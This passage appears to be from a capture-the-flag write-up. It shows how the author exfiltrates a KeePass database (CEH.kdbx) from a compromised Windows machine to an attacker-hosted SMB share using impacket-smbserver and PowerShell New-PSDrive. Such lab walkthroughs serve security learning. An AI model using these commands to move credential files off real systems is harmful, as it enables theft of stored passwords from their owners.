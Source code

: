 ### 4.2 Transferring the KeePass File

I used `impacket-smbserver` to transfer the file to my attacker machine.

1. **Start SMB Server (Attacker):**
```bash
impacket-smbserver PleaseSubscribe 'pwd'
impacket-smbserver PleaseSubscribe $(pwd) -smb2support
```
2. **Map Drive & Copy File (Target):**
The smb server is listening on the attacker box with the `PleaseSubscribe` that anyone can write to.
On the victim machine, run the following.

```powershell
New-PSDrive -Name "FollowOnX" -PSProvider "FileSystem" -Root "\\10.10.16.16\PleaseSubscribe"
copy CEH.kdbx FollowOnX:\
```
![](images/2025-02-09_7.png)

## OR 
Navigate to the folder
```bash
PS C:\Users\kohsuke\Documents> cd FollowOnX:
PS FollowOnX:\> 
```
Now, copy the file `CEH.kdbx` to the shared smb folder and access it on the attacker machine.
